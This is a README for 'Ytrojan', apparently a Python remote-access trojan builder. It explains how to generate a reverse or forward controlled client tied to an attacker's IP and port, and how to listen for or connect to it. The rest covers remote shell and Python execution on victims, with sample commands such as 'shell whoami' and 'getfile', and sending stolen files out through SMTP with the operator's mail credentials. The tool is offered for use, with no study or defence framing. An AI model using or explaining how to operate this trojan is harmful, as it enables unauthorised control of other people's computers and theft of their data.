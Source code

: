 # Ytrojan

## Select Your Language

Zh-cn   En-us

## How to use?

Run Main-Cmd.py with Python 3.10 or higher
Program running result：
```
__   ___             _             
\ \ / / |_ _ __ ___ (_) __ _ _ __  
 \ V /| __| '__/ _ \| |/ _` | '_ \ 
  | | | |_| | | (_) | | (_| | | | |
  |_|  \__|_|  \___// |\__,_|_| |_|
                  |__/             
                                      
Ytrojan $>
```  

### Use the "generate" command to generate the Controlled Client

```
generate [Option] [Path] [Ip] [Port]
1. [Option] 0 or 1
    When the option is 0, generate reverse controlled client
    When the option is 1, generate forward controlled client
2. [Path] The place where the controlled client is generated
3. [ip] Target host (or your computer) IP
   [port] Target host (or your computer) port
    When "option" is 0, ip and port are your computer's
    When "option" is 1, ip and port are those of the controlled client
    When parameters $> appears, it means that you need to select the function of the controlled client you want
    Currently supported functions are: shell, getfile, pycmd
    For example, if you want the controlled client to be able to execute shell and py statements, you can do this:
    parameters $>shell pycmd
````

### Use the "connect" command to connect to the forward host

````
connect [ip] [port]
1. [ip][port] are all target
2. This command should be run after the controlled client runs
````

### Use the "listen" command to connect to the reverse host

````
listen [ip] [port]
1. [ip][port] are your computer
2. This command should be run before the controlled client
````

### How to control the target

After connecting to the target, you can operate the target with the following commands:
(connecting to the target might output "ip $>")

````
1. shell [Command] #Execute shell command
2. getfile [Path] #Get the file
3. pycmd [Code] #Execute python code
````

E.g.
````
1. shell whoami #Execute whoami command
   shell id
   shell ls
2. getfile a.txt #Get a.txt
   getfile /a.jpg #Get a.jpg in the root directory
3. win #Get the current screenshot
4. pycmd print('hello world') #output hello world
   pycmd import os; print(os.name)
````

### Attention!
Because shell commands are not interactive shells you cannot execute commands like "vim" and "sudo"!

The "getfile" command use the smtp protocol to transfer files. You must do the following before using these command!!!

````
$> pycmd host = "smtp server domain name" #For example, NetEase mailbox is smtp.163.com
YES
$> pycmd port = "smtp service port" #usually port 25
YES
$> pycmd username = "your email"
YES
$> pycmd password = "The password provided to you by the smtp service operator"
YES
$>...
````
